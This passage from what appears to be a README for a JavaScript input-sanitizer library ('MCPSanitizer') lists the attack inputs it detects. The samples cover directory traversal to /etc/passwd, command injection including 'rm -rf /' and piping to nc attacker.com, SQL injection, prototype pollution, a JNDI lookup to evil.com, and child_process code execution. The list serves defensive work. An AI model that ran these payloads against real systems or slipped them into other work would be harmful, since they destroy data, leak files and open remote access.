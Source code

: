 ```javascript
      allowLocalhostWithoutPort: false
    },
    filePath: {
      allowAbsolutePaths: false,
      allowedDirectories: ['./data']
    }
  }
});
```

## Supported Attack Vectors

### Directory Traversal
- `../../../etc/passwd`
- `..\\windows\\system32\\config`
- `/proc/version`, `/sys/class/net`

### Command Injection
- `ls; rm -rf /`
- `command && malicious_command`
- `ls | nc attacker.com 4444`

### SQL Injection
- `'; DROP TABLE users;--`
- `UNION SELECT * FROM passwords`
- `EXEC xp_cmdshell('dir')`

### Prototype Pollution
- `{"__proto__": {"isAdmin": true}}`
- `{"constructor": {"prototype": {"polluted": true}}}`

### Template Injection
- `{{constructor.constructor('return process')()}}`
- `${jndi:ldap://evil.com/x}`
- `<%= require("child_process").exec("whoami") %>`

### Code Execution
- `require('fs').readFileSync('/etc/passwd')`
- `eval("malicious_code")`
- `Function("return process")()`

## API Reference

### `new MCPSanitizer(options?)`

Create a new sanitizer instance.

**Parameters:**
- `options`: Configuration object, security policy name, or policy with customizations
